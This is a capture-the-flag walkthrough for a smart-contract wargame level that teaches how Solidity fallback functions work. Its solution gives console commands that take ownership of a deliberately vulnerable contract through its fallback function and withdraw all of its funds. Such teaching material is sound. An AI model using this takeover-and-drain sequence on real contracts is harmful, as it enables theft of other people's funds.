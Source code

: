 Learning: the fallback function is called when one calls a function that does not exist in the contract or when one sends ether to a contract with send, transfer or call. Fallback function:
- Cannot have a name
- Cannot have any inputs and outputs
- Must be declared as external
- Must be declared as payable to receive Ether
- To receive ether the function needs to be declared as payable
- It receives 2300 gas from transfer and send and can receive more gas when using the call method

### Solution

Copy the owner's address:
```
ownerAddr = await contract.owner();
```

Verify that the owner has a total contribution of 1000 ether:
```
await contract.contributions('0x9CB391dbcD447E645D6Cb55dE6ca23164130D008').then(v => v.toString())
```

Execute a contribution and verify the new player contribution balance:
```
await contract.contribute.sendTransaction({from: player, value: toWei('0.0009')})
await contract.getContribution().then(v => v.toString())
```

Force the fallback function to get called and verify the player is now the owner:
```
await sendTransaction({from: player, to: contract.address, value: toWei('0.000001')})
await contract.owner() == player
```

Withdraw all the funds:
```
await contract.withdraw()
```